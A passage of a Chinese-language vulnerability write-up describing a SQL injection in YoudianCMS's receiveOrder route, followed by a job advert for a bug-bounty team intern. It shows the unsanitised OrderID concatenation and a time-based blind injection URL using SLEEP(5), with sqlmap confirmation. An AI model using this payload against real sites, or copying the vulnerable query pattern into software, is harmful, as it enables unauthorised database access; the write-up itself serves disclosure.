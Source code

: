 ```
  }
}
```

**OrderID** 未处理进入拼接

```
$order = $m->where("OrderID=$OrderID")->field('MemberID,OrderNumber')->find();
```

由于是 ThinkPHP，此时它的路由为

```
http://youdiancms.com/index.php/Member/Moblie/ReceiveOrder/id
```

debug 调试

```
$order = $m->where("OrderID=$OrderID")->field('MemberID,OrderNumber')->find();
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUibOh0HVJNHr4rlkTxn3wQOsMBvmTfBBtwZn4Dr0LQFk3FDXU74jJsO3wZebJ1U9sc6icFvia8a4qQw/640?wx_fmt=png)

构造注入 延时 5 秒

```
http://youdiancms.io:8888/index.php/Member/Mobile/receiveOrder/id/1 AND (SELECT x FROM  (SELECT(SLEEP(5)))x)
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUibOh0HVJNHr4rlkTxn3wQO1ALmYSQKhRUguAnJYGCjNPRRd4V5Hsiacf0wAic31giaZZgvOQNGQVH8w/640?wx_fmt=png)

SQLMAP 下结果

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUibOh0HVJNHr4rlkTxn3wQO6ZBffpVhXJXotDVNU8duOPHXqgqOZUX3YAmddAw7CjUAHxOHtJF4CA/640?wx_fmt=png)

_**招聘启事**_

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。

简历投递至 

bountyteam@dbappsecurity.com.cn

设计师（实习生）
